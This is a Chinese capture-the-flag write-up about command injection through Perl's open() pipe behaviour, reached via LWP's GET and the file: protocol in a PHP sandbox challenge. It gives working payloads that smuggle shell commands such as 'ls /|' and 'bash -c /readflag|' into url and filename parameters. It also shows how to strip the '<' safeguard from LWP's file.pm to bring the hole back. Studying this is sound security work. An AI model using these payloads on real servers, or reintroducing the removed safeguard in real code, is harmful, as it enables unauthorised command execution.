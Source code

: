 # PERL,GET open 下执行命令

### file 协议利用 open 命令执行

 perl的feature，在open下可以执行命令。前提是文件事先存在。例子：
这是使用perl可以执行系统命令

```
[root@izwz962asjj9zbi0ahwa55z test]# perl a.pl
[root@izwz962asjj9zbi0ahwa55z test]# uid=0(root) gid=0(root) groups=0(root)
cat a.pl
open(FD, "|id");
print <FD>;
```

下面我们来看看使用GET如何来执行系统命令。（具体啥原因就不讲了，俺也不知道，大概就是open函数支持file协议吧 ） **要执行的命令先前必须要有以命令为文件名的文件存在**
我们执行以下命令

```
touch 'ls|'
GET "file:ls|"
```

但是为什么没有按照预期执行呢？ 我们去看看`file.pm`模块。

```
cd /usr/share/perl5/LWP/Protocol
cat file.pm
```

我们可以看到这么一段

```
# read the file
    if ($method ne "HEAD") {
	open(my $fh,'<', $path) or return new   ##就是这里出了问题
	    HTTP::Response(HTTP::Status::RC_INTERNAL_SERVER_ERROR,
			   "Cannot read file '$path': $!");
	binmode($fh);
	$response =  $self->collect($arg, $response, sub {
	    my $content = "";
	    my $bytes = sysread($fh, $content, $size);
	    return \$content if $bytes > 0;
	    return \ "";
	});
	close($fh);
    }

    $response;
}
```

我们可以看到，它在打开文件时加了个`<`符号。这也正是我们修复这个漏洞的办法，现在我们要复现就先将她删掉吧。那一行改成`open(my $fh, $path) or return new` 。再来按照刚刚的思路就可以运行了。good,也算是解决了一个难题了。Kali环境是个好东西，哈哈。

**简单讲，file协议获取文件内容，GET 执行内容所包含的命令**

### 来看看题目

#### 题目分析

打开题目得到以下回显：

```
118.239.16.215 <?php
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];

    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data);
    highlight_file(__FILE__);
```

从上面我们可以知道：首先它会进入sandbox/文件夹然后进入一个 把 “orange118.239.16.215” md5摘要命名的文件夹。再然后执行一个“GET +我们传入的url参数” 这个命令。最后把执行的命令写入我们传入以我们传入的filename为文件名的文件内。
 了解了基本流程和上面说的漏洞后，我的思路是：

1. 先创建一个以我们要执行的命令为文件名的文件
2. 然后执行我们的命令
3. 查看我们创建的文件

#### 解题过程

1. 使用2次`?url=file:ls /|&filename=ls /|` 第一次是为了创建`ls /|` 文件第二次就可以执行命令，并把结果写入文件了。
2. 访问文件，先将`orange118.239.16.215`md5然后就可以知道文件路径了执行`/sandbox/b637d38ae20fabeb50aa7ca03ba02081/ls /|` 可以看到有个 `readflag`,那么就尝试运行它吧。
   [![img](https://pic.downk.cc/item/5e7b4e38504f4bcb0400c389.jpg)](https://pic.downk.cc/item/5e7b4e38504f4bcb0400c389.jpg)
3. 老样子执行2遍`?url=file:bash -c /readflag|&filename=bash -c /readflag|`
4. 接着去访问`/sandbox/b637d38ae20fabeb50aa7ca03ba02081/bash -c /readflag|` 即可以得到我们的flag。
   [![img](https://pic.downk.cc/item/5e7b4ffe504f4bcb0401d03a.jpg)](https://pic.downk.cc/item/5e7b4ffe504f4bcb0401d03a.jpg)
   但是为什么不可以直接运行 /readflag呢？ 要加一个bash -c呢？
   猜测：
    我们使用`/readflag|` 我们无法成功创建文件呀，它会再根目录下再创建 `readflag|`。所以我们使用 `bash -c` 就可以了。
    其实我们使用`|/readfalg`也是可以的，也就是说我们运行命令的时候不一定在后面加`|`在前面也是可以的。`|`应该是一个分界符


